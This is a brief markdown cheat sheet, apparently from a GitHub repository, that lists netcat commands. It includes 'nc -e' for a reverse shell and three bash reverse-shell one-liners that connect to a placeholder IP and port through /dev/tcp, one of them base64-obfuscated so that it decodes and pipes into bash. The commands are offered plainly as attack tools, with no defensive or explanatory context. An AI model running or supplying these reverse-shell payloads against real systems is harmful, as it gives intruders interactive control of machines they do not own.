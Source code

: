 # Netcat
Comm | Desc
--- | ---
`nc -l -p <port>` | listen on port
`nc <dest_ip> <port>` | Connect to dest_ip on port
`nc <dest_ip> <port> -e <binary>` | Connect to dest_ip on port executing binary (great for rev shell)


#netcatalternative
`setsid bash -i &>/dev/tcp/IP/PORT 0>&1 &`
`bash -i &>/dev/tcp/IP/PORT 0>&1' #`
`echo $(echo 'bash -i >& /dev/tcp/IP/PORT 0>&1' | base64) | base64 -d | bash`
